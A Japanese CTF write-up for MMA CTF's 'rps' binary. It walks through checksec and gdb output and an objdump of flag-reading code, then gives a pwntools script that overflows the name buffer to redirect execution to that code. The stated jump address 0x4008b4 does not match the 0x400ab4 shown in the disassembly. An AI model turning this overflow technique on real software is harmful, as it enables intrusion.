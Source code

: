 # rps writeup

## バイナリを調べる
> rps: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=8811962c746e1d068a5fa5b4deb7cb043c30146f, not stripped

64bitダー
IDA買いたい欲を刺激するバイナリ

> gdb-peda$ checksec  
CANARY    : disabled  
FORTIFY   : disabled  
NX        : ENABLED  
PIE       : disabled  
RELRO     : disabled  

NX以外はかかってない。
スタックベースのオーバーフローありそう。

## プログラムの挙動
> gdb-peda$ r  
Starting program: /home/segfo/ctf_writeup/mmactf/rps/rps
What's your name: segfo  
Hi, segfo  
Let's janken  
Game 1/50  
Rock? Paper? Scissors? [RPS]R  
Rock-Scissors  
You win!!  
Game 2/50  
Rock? Paper? Scissors? [RPS]Wrong input  

じゃんけんゲームっぽい。勝った。
（競技中は正直見てなかった。Writeup書くときにじゃんけんゲームってのを知った）

> gdb-peda$ r  
Starting program: /home/segfo/ctf_writeup/mmactf/rps/rps
What's your name:   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB  
Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB  
Let's janken  
Game 1/50  
Rock? Paper? Scissors?   [RPS]AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBB  
Wrong input

> Program received signal SIGSEGV, Segmentation fault.

SIGSEGVで落ちた  
詳細をGDBで観察してみると81バイト目でベースポインタを書き換えられる模様。  
どこに飛ばすかが問題。  
今回は、flag.txtを開いているコードがプログラム中にあったので  
そこに飛ばすことにする。  

## Objdumpで見てみる
> 400a88:       48 89 c6                mov    %rax,%rsi  
  400a8b:       bf 1b 0c 40 00          mov    $0x400c1b,%edi ;Congrats %s!!!!  
  400a90:       b8 00 00 00 00          mov    $0x0,%eax  
  ; printf("Congrats %s!!!",name) みたいな感じ（このあたりはじっくり見てない）  
  400a95:       e8 d6 fb ff ff          callq  400670 <printf@plt>  
  400a9a:       be 88 0b 40 00          mov    $0x400b88,%esi  
  400a9f:       bf 2c 0c 40 00          mov    $0x400c2c,%edi  ;flag.txt  
  ; fp = fopen("flag.txt","r")みたいな感じ  
  400aa4:       e8 47 fc ff ff          callq  4006f0 <fopen@plt>  
  400aa9:       48 89 45 e8             mov    %rax,-0x18(%rbp)  
  400aad:       48 8b 45 e8             mov    -0x18(%rbp),%rax  
  400ab1:       48 89 c2                mov    %rax,%rdx  
  400ab4:       be 64 00 00 00          mov    $0x64,%esi  
  400ab9:       bf 00 13 60 00          mov    $0x601300,%edi  
  ; fgets(buf,100,fp) みたいな感じ  
  400abe:       e8 dd fb ff ff          callq  4006a0 <fgets@plt>  
  400ac3:       bf 00 13 60 00          mov    $0x601300,%edi  
  ; puts(buf) みたいな感じ  
  400ac8:       e8 73 fb ff ff          callq  400640 <puts@plt>  

### 補足:stringsの結果（ファイルの先頭からのアドレス）
> $ strings -tx ./rps  
c03 Draw  
c08 You win!!  
c12 You lose  
c1b Congrats %s!!!!  
c2c flag.txt  

絶対アドレスに変換するにはELFが置かれるベースアドレスを足す必要がある  

## ここまでの整理と攻撃する方針を立てる
とりあえず、0x4008b4あたりに飛ばせば良さそう。("mov    $0x64,%esi")  
やってみる。

## exploit
```
#!/usr/bin/python
#coding: utf-8

from pwn import *

# r = remote("milkyway.chal.mmactf.link",1641)

# ペイロードを準備
# 80バイトまでAで埋める。
payload = 'A'*80
# ベースポインタを適当な場所にやっとく
payload += p64(0x6012c9) # rbp
# flagを読ませる
payload += p64(0x4008b4)
payload += '\n'

# つなぐ
r = remote("localhost",11111)
# ペイロードを投げる
r.write(payload)
# なんか出てくるので読む
r.read()
# 適当な入力
r.write('1\n')
r.read()
# flagを読む
print r.read()
r.close()
```
